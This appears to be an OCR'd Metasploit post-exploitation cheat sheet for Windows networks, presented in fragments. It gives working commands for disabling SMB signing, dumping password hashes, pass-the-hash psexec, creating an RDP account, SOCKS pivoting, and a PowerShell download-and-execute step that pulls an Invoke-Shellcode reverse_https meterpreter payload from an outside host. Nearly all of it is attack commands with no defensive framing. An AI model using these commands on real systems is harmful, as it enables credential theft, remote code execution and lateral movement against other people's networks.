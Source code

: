 STATUS_ACCESS_DENIED (Command=117 WordCount=0):
This can be remedied by navigating to the registry key, "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0"

Run hashdump on the first compromised machine:
run post/windows/gather/hashdump

Run Psexec module and specify the hash:
use exploit/windows/smb/psexec

 [+] Enable RDP:
meterpreter > run getgui -u hacker -p s3cr3t
Clean up command: meterpreter > run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110112.2448.rc


[+] AutoRunScript
Automatically run scripts before exploiation:
set AutoRunScript "migrate explorer.exe"

[+] Set up SOCKS proxy in MSF

[+] Run a post module against all sessions
resource /usr/share/metasploit-framework/scripts/resource/run_all_post.rc

[+] Find local subnets 'Whilst in meterpreter shell'
meterpreter > run get_local_subnets

# Add the correct Local host and Local port parameters
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.0.7 -Lport 443 -Force" >> /var/www/payload

# Set up psexec module on metasploit
auxiliary/admin/smb/psexec_command
set command powershell -Exec Bypass -NoL -NoProfile -Command IEX (New-Object Net.WebClient).DownloadString(\'http://192.168.0.9/payload\')

# Start reverse Handler to catch the reverse connection
Module options (exploit/multi/handler):
Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LHOST     192.168.0.9      yes       The local listener hostname
   LPORT     443              yes       The local listener port

# Show evasion module options
show evasion
